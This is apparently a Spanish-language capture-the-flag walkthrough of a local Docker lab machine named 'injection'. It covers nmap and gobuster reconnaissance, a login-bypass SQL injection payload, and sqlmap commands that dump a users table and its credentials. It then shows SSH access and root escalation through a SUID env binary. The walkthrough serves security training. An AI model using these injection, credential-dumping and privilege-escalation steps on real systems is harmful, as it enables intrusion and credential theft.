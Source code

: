 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh injection.tar
```

![Pasted image 20250129175253](https://github.com/user-attachments/assets/14ce4f40-ab9f-4462-81e3-6608d97b908b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129180719](https://github.com/user-attachments/assets/aef8dcf1-081e-46ae-a31b-d09a13eb097d)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250129182251](https://github.com/user-attachments/assets/b2a02122-17b1-43ea-8239-8bdced77a53f)

Nos metemos en los directorios:

![Pasted image 20250129182354](https://github.com/user-attachments/assets/4669e891-bed9-4e8b-af23-0ae0a6db1750)

Metemos esta inyección en el usuario (el password lo que queramos).

```Bash
'or 1=1 -- -
```

![Pasted image 20250129182930](https://github.com/user-attachments/assets/4e13331a-7108-48f7-97eb-34c9f7a79800)

![Pasted image 20250129183019](https://github.com/user-attachments/assets/5c6c608c-501b-42fc-bdff-227d442d0773)

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Más formas de conseguirlo:

**Inyección sqlmap**

```Bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

![Pasted image 20250129183525](https://github.com/user-attachments/assets/b296691d-128e-4395-b554-87bc64bd7b79)

![Pasted image 20250129183540](https://github.com/user-attachments/assets/4285df20-25d5-4867-8f6b-ef75ef06a3cc)

Ahora usamos el siguiente comando para acceder a ``register``:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

![Pasted image 20250129183601](https://github.com/user-attachments/assets/e9f8150f-6e8a-4311-b949-b07e81064e30)

![Pasted image 20250129183616](https://github.com/user-attachments/assets/e3f2a992-8ab5-4fdc-880a-88b86f1a70f8)

Accedemos a ``users`` y listamos las columnas:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch
```

![Pasted image 20250129183659](https://github.com/user-attachments/assets/343da861-7a0e-4fdd-b16f-83fbc6943dd9)

![Pasted image 20250129183713](https://github.com/user-attachments/assets/1fad748e-83c3-4bd5-bbe0-3ef393bd9924)

Por último, listamos las dos columnas que hay: passwd y usernames, y tenemos credenciales.

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch
```

![Pasted image 20250129183736](https://github.com/user-attachments/assets/01cec31e-3af0-47ad-af57-637f48f2fb66)

![Pasted image 20250129183748](https://github.com/user-attachments/assets/e67d540c-137b-44bf-88d6-88fc5682969d)

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Nos conectamos con SSH

```Bash
ssh dylan@172.17.0.2
```

![Pasted image 20250129183951](https://github.com/user-attachments/assets/623db47c-26dd-43f3-9f5f-98125d00cd79)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129184025](https://github.com/user-attachments/assets/c7047a32-1b6f-494b-bfcc-6699b09fbcea)

```Bash
find / -perm -4000 2>/dev/null
```

![Pasted image 20250129184114](https://github.com/user-attachments/assets/37a05325-bf9c-4d47-b4a3-88fb9a59d94e)

```Bash
/usr/bin/env /bin/bash -p
```

![Pasted image 20250129184315](https://github.com/user-attachments/assets/a43c5967-15fd-4ae8-b998-52d8798a0b91)

```Bash
whoami
```

![Pasted image 20250129184339](https://github.com/user-attachments/assets/666bfd1c-e2f1-43a4-bced-c9080bab84f0)
